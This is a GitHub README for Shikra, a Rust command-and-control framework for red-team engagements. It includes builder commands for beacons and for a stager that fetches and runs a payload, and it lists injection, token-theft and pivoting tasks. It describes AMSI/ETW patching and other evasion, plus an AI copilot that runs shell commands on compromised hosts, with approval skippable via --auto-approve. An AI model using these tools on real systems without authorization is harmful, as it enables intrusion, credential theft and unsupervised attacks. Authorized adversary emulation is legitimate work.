









<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/A1bu5/shikra/actions/workflows/ci.yml"></a>
  <a href="https://github.com/A1bu5/shikra/releases/latest"></a>
  <a href="LICENSE"></a>
  
  
</p>

**Shikra** is a cross-platform command-and-control framework written in native
Rust, with a Tauri 2 operator console and a model-driven AI copilot. The
implant is a single self-contained binary with six transport modes and an
automatic fallback chain; the teamserver stores everything in PostgreSQL and
speaks gRPC over mutual TLS. Shikra is a clean-room implementation inspired by
Sliver's architecture — no third-party C2 code is vendored.

*(The name: the shikra — Accipiter badius — is a small, fast, remarkably
agile hawk.)*

> [!WARNING]
> **Authorized use only.** Shikra is an adversary-emulation framework for
> red-team engagements, scoped penetration tests, lab research, and detection
> engineering. Using it against systems you do not own or have explicit
> written permission to test is illegal in most jurisdictions. You are
> responsible for compliance with your local laws and your rules of
> engagement. See [`SECURITY.md`](SECURITY.md) for reporting vulnerabilities.

## ✨ Highlights

- 🦀 **Native Rust, single binary** — teamserver, client, builders and implant
  all compile from one workspace; no interpreters on the target.
- 🛰️ **Six transports, one payload** — `session`, `beacon`, `quic`, `dns`,
  `wireguard`, and `fallback` (try transports in order until one connects).
- 🔐 **End-to-end encrypted agent channel** — X25519 → HKDF-SHA256 →
  ChaCha20-Poly1305 with replay protection, independent of the carrier.
- 🖥️ **Desktop operator console** — Tauri 2 GUI with terminal, file browser,
  process list, listener control, payload builder, malleable profiles,
  extension registry, tunnels, team management, live event feed and an AI
  copilot behind an approval gate. It can host the teamserver itself with an
  embedded PostgreSQL — no database install required.
- 🧩 **Extendable** — Beacon Object Files (amd64 + arm64), signed WASM and
  native extensions, an extension pack/push/install registry, and an MCP
  bridge for AI tooling.
- 🔍 **Detection-friendly** — rate-limited enrollment, tamper-evident audit
  chain, canary tokens, per-peer throttling events, team RBAC.
- 📦 **Releases ship operator tooling only** — the CLI and console are
  published with SHA256 checksums, SBOM and build-provenance attestations;
  implants and stagers are **never** released.

## 🖥️ Operator console

The console is a three-zone workbench: a grouped navigation rail
(operations / build / team / assistant), a table-first sessions workspace
with live health and a details panel, and a persistent status bar
(connection, session and listener counts, endpoint, clock). Double-click a
session — or press **Interact** — to open its workspace with terminal, file,
process, task and tunnel panes.

<p align="center">
  
</p>

<p align="center">
  
</p>

**Guardrails by default.** Irreversible actions (stopping listeners,
cancelling tasks, marking sessions dead, stopping the teamserver or the
embedded database, reflective DLL loads, script deletion) ask for explicit
confirmation; session-scoped controls stay disabled until a session is
selected, and every list has a real empty state instead of a broken view.

<p align="center">
  
</p>

Listeners get their own view with contextual actions and one-click payload
wiring:

<p align="center">
  
</p>

<p align="center">
  
</p>

## 🏗️ Architecture



- **Implant** (`shikra-implant`) — one binary, six modes. Tasks run in-process:
  shell, file transfer, screenshot, port scan, pivoting (TCP and named-pipe),
  token operations, BOF/WASM/native extension execution, and more.
- **Teamserver** (`shikra-server`) — Tokio/tonic gRPC (mTLS), an HTTPS beacon
  listener with live malleable-profile rotation, plus QUIC, DNS and WireGuard
  listeners that are started and stopped at runtime. All state lives in
  PostgreSQL; enrollment is rate limited and every operator action lands in a
  tamper-evident hash-chained audit log.
- **Operator tooling** — a scriptable `shikra-client` CLI and the Tauri 2
  console, sharing the same gRPC client library.

## 🛰️ Transports

| Mode | Carrier | Typical use |
| --- | --- | --- |
| `session` | long-lived TLS stream on the gRPC port | interactive operators |
| `beacon` | HTTPS polling with jitter | low-and-slow engagements |
| `quic` | QUIC on UDP | hostile networks that punish TCP |
| `dns` | DNS queries | egress restricted to a resolver |
| `wireguard` | WireGuard tunnel (userspace) | covert channel inside a VPN |
| `fallback` | ordered list, connects with the first that works | resilient defaults |

```sh
--mode fallback --fallback quic,http,dns,wireguard
```

Every transport carries the same end-to-end encrypted framing, so a beacon can
migrate between carriers without changing the task protocol.

## 🔐 Cryptography

- **Operator channel** — TLS with a generated CA and client certificate pair;
  operators authenticate with bearer tokens.
- **Agent channel** — application-layer end-to-end encryption: X25519 key
  exchange → HKDF-SHA256 → ChaCha20-Poly1305, monotonic sequence numbers to
  reject replays. Framing is transport-independent.
- **Enrollment** — Ed25519 identity signatures bound to the session key, with
  single-use enrollment tokens.
- **Extensions** — Ed25519-signed packages are verified before execution.

## 🔄 Beacon lifecycle



## 🚀 Quickstart

### 1. Get the binaries

Download the latest operator tooling from
[Releases](https://github.com/A1bu5/shikra/releases/latest) (Linux, macOS and
Windows; CLI + console), or build from source below.

### 2. Host or connect

**Console-first:** launch the console, pick **Host teamserver**, choose a state
directory and click *Prepare database* — a private embedded PostgreSQL is
provisioned automatically. The login screen also connects to existing
teamservers with a CA file and operator token.

**CLI path:**

```sh
# Bootstrap: CA, server certificate, tokens, identity keys (0600).
shikra-server --bootstrap --state-dir ./state

# Run: only the operator channel binds at boot; beacon listeners start at
# runtime from the console or CLI.
shikra-server --state-dir ./state --database-url postgres://localhost/shikra

# Connect and list sessions.
export SHIKRA_SERVER=https://127.0.0.1:8443
export SHIKRA_CA_CERT=./state/ca.pem
export SHIKRA_OPERATOR_TOKEN=<operator-token>
shikra-client sessions
```

### 3. Build and run a payload

```sh
# Start an HTTPS beacon listener (or use the console's Listeners tab).
shikra-client listener-start --kind http --addr 0.0.0.0:8080

# Build a beacon with the teamserver material baked in.
shikra-builder --name beacon-http --mode beacon \
  --http-url http://127.0.0.1:8080 \
  --enroll-token-file ./state/enroll.token \
  --server-identity-file ./state/server-identity.pub \
  --ca-cert ./state/ca.pem \
  --output-dir ./builds --release
```

<details>
<summary><b>More builder examples</b> — fallback chain, staged delivery, cross-compilation</summary>

```sh
# Resilient beacon: try QUIC, HTTPS, DNS, WireGuard in order.
shikra-builder --name beacon-auto --mode fallback \
  --fallback quic,http,dns,wireguard \
  --quic-url 127.0.0.1:8444 --http-url http://127.0.0.1:8080 \
  --dns-url 127.0.0.1:5353 --dns-zone dns.shikra \
  --wg-url 127.0.0.1:51820 --wg-server-public <server-wg-public-hex> \
  --enroll-token-file ./state/enroll.token \
  --server-identity-file ./state/server-identity.pub \
  --ca-cert ./state/ca.pem --output-dir ./builds --release

# Cross-compile a Windows beacon and emit a staged-delivery pair
# (<name>.stage + <name>-stager) that fetches and runs the payload.
shikra-builder --name beacon-win --os windows --arch x86-64 --mode beacon \
  --http-url http://10.0.0.5:8080 \
  --enroll-token-file ./state/enroll.token \
  --server-identity-file ./state/server-identity.pub \
  --ca-cert ./state/ca.pem --output-dir ./builds --release \
  --stager --stage-url http://10.0.0.5:8080/cdn/beacon-win.stage
```

Strings are obfuscated at compile time with a random per-build seed; pass
`--no-obfuscation` for debugging. `--profiles-file profiles.json` bakes the
live malleable profile set into the payload.

</details>

## 🧰 Task surface

A curated slice of what a session accepts (see
`shikra-client --help` for the full list):

| Area | Commands |
| --- | --- |
| Execution | `shell`, `spawn`, `kill`, `execute-assembly`, `bof`, `run` |
| File transfer | `ls`, `cat`, `download`, `upload`, `rm`, `mkdir`, `cd`, `pwd` |
| Injection | `inject`, `migrate`, `dll-inject`, `dll-reflect`, `dll-spawn` |
| Tokens / Kerberos | `steal-token`, `make-token`, `rev2self`, `klist`, `ptt`, `purge`, `net` |
| Recon | `screenshot`, `portscan`, `ps`, `netstat`, `ifconfig`, `env` |
| Pivoting | `socks`, `portfwd`, `rportfwd`, `rportfwd-stop`, `pivots`, `pivot` |
| Extensions | `wasm-load`/`run`/`list`/`remove`, `native-load`/`run`/`list`/`remove` |
| Registry | `extensions`, `extension-pack`, `extension-push`, `extension-install` |
| Listeners | `listeners`, `listener-start`, `listener-stop` |
| Profiles | `profiles`, `profiles-set` (live malleable C2 edits) |
| Team | `operators`, `operator-add`, `operator-del`, `creds`, `loot`, team canaries |
| AI | `ai` — tool-calling operator behind an approval gate |

## 🤖 AI copilot

Shikra ships an agentic operator that plans with an OpenAI-compatible model
(DeepSeek, OpenAI, OpenRouter, vLLM, Ollama…) and executes the same tool
surface from the console and the CLI. Every call passes through a three-tier
approval gate:

| Tier | Tools | Behaviour |
| --- | --- | --- |
| **read-only** | `list_sessions`, `session_info`, `list_tasks`, `list_listeners`, `list_pivots`, `list_extensions`, `list_credentials`, `list_loot`, `fs_ls`, `fs_cat`, `ps`, `netstat`, `ifconfig`, `env_dump`, `wasm_list` | always allowed |
| **mutating** | `run_shell`, `fs_upload`, `fs_download`, `portscan`, `screenshot` | needs `--auto-approve`, or one click in the console |
| **destructive** | `bof_run`, `wasm_load`, `wasm_run`, `listener_start`, `listener_stop` | needs `--auto-approve --allow-destructive` or explicit approval — unknown tools default here |

<p align="center">
  
</p>

The console panel streams every step: the plan, tool cards with risk badges,
arguments and results, and an approve/deny card whenever the gate requires a
human decision. Denied calls are fed back to the model, which adapts or
reports honestly instead of retrying blindly; tasks it launches are tagged
`ai_initiated` and surface as `[ai]` in `shikra-client tasks`.

```sh
# One-shot: read-only recon runs automatically, shell waits for the flag.
shikra-client ai "Triage the first session: identity, OS and interfaces."

# Full agentic REPL.
export SHIKRA_LLM_BASE_URL=https://api.deepseek.com/v1
export SHIKRA_LLM_API_KEY=sk-…        # or set it in the console panel
export SHIKRA_LLM_MODEL=deepseek-flash
shikra-client ai --auto-approve
```

The same settings live in the console's **✦ Copilot** tab (persisted in the
console config with `0600`); `SHIKRA_LLM_*` environment variables take
precedence.

## 🛡️ Hardening & OPSEC

- Compile-time string obfuscation (`shikra-obf`) with random per-build seeds.
- Windows agents resolve NT syscalls dynamically and call them indirectly;
  AMSI/ETW providers are patched before injection tasks.
- Beacon traffic sleeps under memory encryption and jitters its timing.
- Enrollment is rate limited per peer (30 attempts/minute) and authentication
  failures are recorded as throttled audit events.
- Canary tokens and reaction rules turn unexpected access into alerts.

See [`docs/OPSEC.md`](docs/OPSEC.md) for the operational security guide and
[`docs/COMPARISON.md`](docs/COMPARISON.md) for a feature-by-feature comparison
with Sliver and Havoc.

## 📚 Documentation

| Document | Contents |
| --- | --- |
| [`docs/OPSEC.md`](docs/OPSEC.md) | Operational security: build hygiene, transport selection, cleanup |
| [`docs/COMPARISON.md`](docs/COMPARISON.md) | Shikra vs. Sliver vs. Havoc |
| [`CHANGELOG.md`](CHANGELOG.md) | Release history |
| [`SECURITY.md`](SECURITY.md) | Vulnerability disclosure policy |
| [`CONTRIBUTING.md`](CONTRIBUTING.md) | Clean-room contribution rules (DCO) |
| [`NOTICE`](NOTICE) | Provenance and clean-room statement |

## 🧪 Development

Requires Rust 1.88 (pinned by `rust-toolchain.toml`) and PostgreSQL 15+ for
integration tests.

```sh
cargo build --release
cargo build --release -p shikra-implant      # agent binary

export SHIKRA_TEST_DATABASE_URL=postgres://localhost/shikra_test
cargo test --workspace
cargo clippy --workspace --all-targets
cargo fmt --all -- --check
```

End-to-end coverage lives in `crates/server/tests/e2e.rs`: enrollment, all six
transports, file transfer, tunnels, multi-hop pivots, port scanning, profile
rotation, staged delivery, extension registry, rate limiting and more.

The console builds with the Tauri 2 toolchain:

```sh
cd gui && cargo tauri dev      # development
cd gui && cargo tauri build    # bundle
```

### Environment

| Variable | Purpose |
| --- | --- |
| `SHIKRA_DATABASE_URL` | PostgreSQL connection string (required) |
| `SHIKRA_STATE_DIR` | State directory (CA, keys, tokens, profiles) |
| `SHIKRA_GRPC_ADDR` | Operator (gRPC) listener override |
| `SHIKRA_DNS_ADDR`, `SHIKRA_WG_ADDR`, `SHIKRA_DNS_ZONE` | UDP transports |
| `SHIKRA_LOG_FORMAT` | `text` or `json` |
| `SHIKRA_DNS_RESOLVER`, `SHIKRA_PUBLIC_IP` | Registration helpers |
| `SHIKRA_LLM_BASE_URL`, `SHIKRA_LLM_MODEL`, `SHIKRA_LLM_API_KEY`, `SHIKRA_LLM_TEMPERATURE` | AI copilot backend (override the console panel) |

## 📦 Releases & supply chain

Every tagged release is built by GitHub Actions on four platforms and ships
**operator tooling only**:

- `shikra-<version>-<platform>` — server, client and builder.
- `shikra-console-<version>-<platform>` — the Tauri console.
- `SHA256SUMS`, an SPDX SBOM, and build-provenance attestations.

The release workflow asserts that no implant or stager artifact ever reaches
the published assets.

## 🗃️ Repository layout

| Path | Contents |
| --- | --- |
| `crates/server` | Teamserver: gRPC, HTTP/QUIC/DNS/WireGuard listeners, audit log |
| `crates/implant` | Agent: transports, task handlers, post-exploitation |
| `crates/client` | Operator CLI and gRPC client library |
| `crates/proto` | Protobuf definitions |
| `crates/crypto` | E2E handshake, framing, token and certificate helpers |
| `crates/transport` | DNS/WireGuard transports, profiles, extension packages |
| `crates/store` | PostgreSQL persistence (sqlx) |
| `crates/builder` | Payload builder and stager generation |
| `crates/evasion` | Encoders, PE parsing, masking, sleep obfuscation |
| `crates/obf` | Compile-time string obfuscation macros |
| `crates/ai`, `crates/mcp` | AI copilot and MCP bridge |
| `gui` | Tauri 2 operator console |
| `migrations` | Database schema (sqlx migrations) |
| `docs`, `docs/assets` | OPSEC/COMPARISON guides and README artwork |
| `scripts` | Acceptance helpers |

## ⚖️ License

Licensed under the [GNU General Public License v3.0](LICENSE)
(GPL-3.0-only). Third-party components are used under their own licenses (see
`Cargo.lock` and `deny.toml`).

Shikra is a clean-room implementation and contains no code from Sliver,
Havoc, Metasploit, Cobalt Strike, or any other C2 framework (see
[`NOTICE`](NOTICE)).

Use it only on systems you own or are explicitly authorized to test.

## 🤝 Contributing

See [`CONTRIBUTING.md`](CONTRIBUTING.md). All contributions must be clean-room
and are accepted under the Developer Certificate of Origin. Security reports
go through [`SECURITY.md`](SECURITY.md), not public issues.
